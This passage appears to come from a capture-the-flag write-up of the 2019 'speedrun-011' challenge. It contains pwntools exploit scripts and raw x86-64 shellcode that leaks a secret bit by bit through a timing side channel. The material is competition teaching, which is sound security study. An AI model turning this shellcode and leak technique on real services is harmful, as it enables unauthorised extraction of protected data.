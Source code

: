 ```

        ts1 = dt.now()
        if DEBUG:
            #p = remote("localhost", 8080)
            p = process("./speedrun-011")
        else:
            p = remote("speedrun-011.quals2019.oooverflow.io", 31337)
        if bitPos == 0:
            toSend = shellcode2.format(p8(bytePos))
        else:
            toSend = shellcode.format(p8(bytePos), p8(bitPos))
        p.readuntil("Send me your vehicle\n")

        p.send(toSend)
        try:
            print(p.read(timeout=1))
        except EOFError:
            pass

        print("dt:{} B:{} b:{}".format(dt.now()-ts1, bytePos, bitPos))
        ts1=dt.now()

        #except TimeoutError:
        #    print("1")
        #except EOFError:
        #    print("0")

        bitPos += 1
        if bitPos == 8:
            bitPos = 0
            bytePos += 1


if __name__ == "__main__":
    main()
```

Here is the by hand solution script I tried to use to solve the challenge but was way too slow. Due to time constraints I couldn't have made this as automated as I should have (you should definetly be using the solution TobalJackson made). In addition to that, this shellcode requires you change three seperate values to leak each bit (values identified in the script, the `x` values for `byte [rdi + x]` and `shr cl, x`):

```
from pwn import *

context.arch = "amd64"

target = remote('speedrun-011.quals2019.oooverflow.io', 31337)

#target = process('./speedrun-011')
#gdb.attach(target, gdbscript='pie b *0xe10')

# Chane the \x05 to match the bit your shifting, and the \x17 to match which byte your leaking
shellcode = "\x8a\x4f\x17\xc0\xe9\x05\x80\xe1\x01\x80\xf9\x01\x0f\x84\xf7\xff\xff\xff\x90"

# Due to not being able to use null bytes, we had to use a seperate shellcode when we are leaking the lowest bit
# since we would be shifting it by 0 we need to just exclude that instruction
# Change the \x17 to match what byte your leaking
#shellcode = "\x8a\x4f\x17\x80\xe1\x01\x80\xf9\x01\x0f\x84\xf7\xff\xff\xff\x90"

target.send(shellcode)

```
